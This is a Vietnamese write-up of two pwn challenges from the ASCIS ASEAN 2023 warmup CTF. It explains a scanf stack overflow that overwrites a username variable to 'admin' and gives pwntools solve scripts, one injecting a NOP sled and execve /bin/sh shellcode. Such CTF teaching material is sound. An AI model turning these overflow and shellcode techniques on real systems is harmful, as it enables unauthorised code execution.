 # ASCIS ASEAN 2023 WriteUp
## Đôi lời tâm sự:
Author: SeaWind (J4ckP0t)

Vì đây là vòng khởi động nên có thể năm nay các challenges về pwn có vẻ tương đối dễ thở. Cho nên hơn thua nhau ở các đội khi làm về mảng pwn là việc team nào giải ra nhanh hơn thôi :cold_sweat: 

Đối với mình thì tốc độ chưa bao giờ là lợi thế của mình, thường đối với một challenge dù dễ thì mình cũng cần mất tương đối thời gian mới có thể identify lỗi và exploit nó được. :face_with_head_bandage: 

Thôi tám chuyện vậy là đủ rồi, vào phần writeup thôi.
## Pwn1:
- Đề bài: [Challenge_link](https://warmup.ascis.vn/files/1e51e32a1d3b2caa96a46fc749772922/pwn?token=eyJ1c2VyX2lkIjozNjQ0LCJ0ZWFtX2lkIjo2NDMsImZpbGVfaWQiOjU4fQ.ZSGJRQ.FD4hStkqb5sR42vgzIG0yuOQoH8)
- Solution:

Đầu tiên ta sẽ tiến hành kiểm tra các mitigations của file challenge này.

![](https://hackmd.io/_uploads/r1hFsb1Wp.png)

Ở đây thì có mitigation của stack và PIE mitigation đã tắt (điều này sẽ có lợi cho lỗi bufferoverflow nên trong chương trình có tồn tại lỗi đó)

Tiếp đến ta sẽ check đến luồng thực thi và cấu trúc chương trình thông qua IDA Pro.

![](https://hackmd.io/_uploads/SkUmnZyWT.png)

Chương trình sẽ có 3 chức năng chính:

**1. Login():** (option=1) Hàm này sẽ tiến hành kiểm tra ta đã login chưa thông qua giá trị của biến old_user và old_passwd (Hàm này dường như không có ích gì trong việc khai thác lỗ hổng của ta)

![](https://hackmd.io/_uploads/rkY23Wkbp.png)

**2. Signup():** (option=2) Hàm này sẽ tiến hành đọc từ input của ta về username và passwd (trừ username = admin) và lưu giá trị vào trong biến old_user và old_passwd (Đây là hàm mà chúng ta sẽ tiến hành khai thác lỗ hỗng ở đây)

![](https://hackmd.io/_uploads/H1APpZk-p.png)

**3. getflag():** (option=4) Hàm này chính là hàm mà chúng ta hướng đến, hàm này sẽ kiểm tra giá trị của biến old_user có = với "admin" không. Nếu có thì sẽ leak ra flag cho chúng ta.

![](https://hackmd.io/_uploads/SJ_fCZ1ba.png)

Ở trong hàm Signup này thì ta thấy ngay được lỗ hổng buffer overflow ở ngay hàm `scanf('%s')` khi hàm này sẽ cho ta phép nhập input ở đến khi gặp dấu `'\n'` hoặc dấu `' '` (dấu xuống hàng và dấu khoảng trắng) ở trong input của cà username và passwd.

![](https://hackmd.io/_uploads/By5I1G1ZT.png)


![](https://hackmd.io/_uploads/SyVdkGyb6.png)

Ban đấu ý tưởng của mình là sử dụng lỗi buffer overflow này để tiến hành ghi đè địa chỉ của RIP ở điều hướng chương trình này sang hẳn hàm open flag trong hàm getflag luôn. Nhưng mà khổ nỗi là địa chỉ của hàm getflag ấy có chứa mã hex của `'\n'` nên căn bản là không thể ghi đè đầy đủ địa chỉ được đó.

Và mình đã rất chật vật để làm sao để có thể ghi đè địa chỉ RIP của hàm là địa chỉ của hàm getflag theo ý mình muốn nhưng mã không được.

Cho đến khi mình được gợi ý rằng là đối lúc chúng ta cần phải chơi đúng luật chơi một chút :V 

Căn bản là chúng ta vẫn sẽ khai thác lỗi buffer overflow nhưng chúng ta sẽ tiến hành ghi đè giá trị của biến `old_user` sẽ là "admin" thông qua việc kết hợp buffer overflow của input nhập passwd + hàm strncpy.

Tại sao mình lại có thể ghi đè được giá trị của biến `old_user` ư? Nếu ta để ý kỹ thì input của việc nhập username cũng như passwd của ta được lưu vào 2 biến local của hàm.

![](https://hackmd.io/_uploads/ryQ7fMJWp.png)

Trong đó ta thấy biến `src` (chứa input của nhập passwd) nằm trước biến `s1` (chứa input của nhập username) của ta cho nên nếu ta lặp đầy biến `src` 64 bytes + chuỗi string `admin` thì ta sẽ ghi đè giá trị trong biến local `s1`

Sau đó hàm strncpy sẽ lưu giá trị của biến `s1` vào trong biến `old_user` và `src` vào trong biến `old_passwd`



![](https://hackmd.io/_uploads/ryfMXGJba.png)

Giờ thì ta đã thành công truyền được string `admin` vào trong biến `old_user` rồi. Gọi hàm **getflag()** và in ra flag thôi.

- Answer: Đây là script giải bài của mình:
```python!=
from pwn import *
context.binary = "./pwn"
#p = process("139.180.137.100", 1337)
p = process()
p.sendline(b'2')
print(p.recv())
p.sendline(b'a')
print(p.recv())
p.sendline(cyclic(64)+b'admin')
print(p.recv())
#p.sendline(b'1')
#print(p.recv())
#p.sendline(cyclic(72)+p64(0x0000000000400aac))
p.sendline(b'4')
p.interactive()
```
## Pwn2:
- Đề bài: [Challenge_link](https://warmup.ascis.vn/files/c6ec92ba170edf460b4eec3f8dd9cf3e/pwn2?token=eyJ1c2VyX2lkIjozNjQ0LCJ0ZWFtX2lkIjo2NDMsImZpbGVfaWQiOjU5fQ.ZSGJ9A.JajO4Fjeg9uI0hpD9nYzv9FmzDE)
- Soluton:
- Answer: Đây là script để giải ra bài này của mình:
```python!=
from pwn import *
context.binary = "./pwn2"
p = process()
#p = remote("139.180.137.100", 1338)
#p = gdb.debug("./pwn2")
p.send(cyclic(0x32))
p.recv()
payload = b'\x90'*60
payload += b'\x48\x31\xd2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05'
p.send(payload)
p.interactive()
```
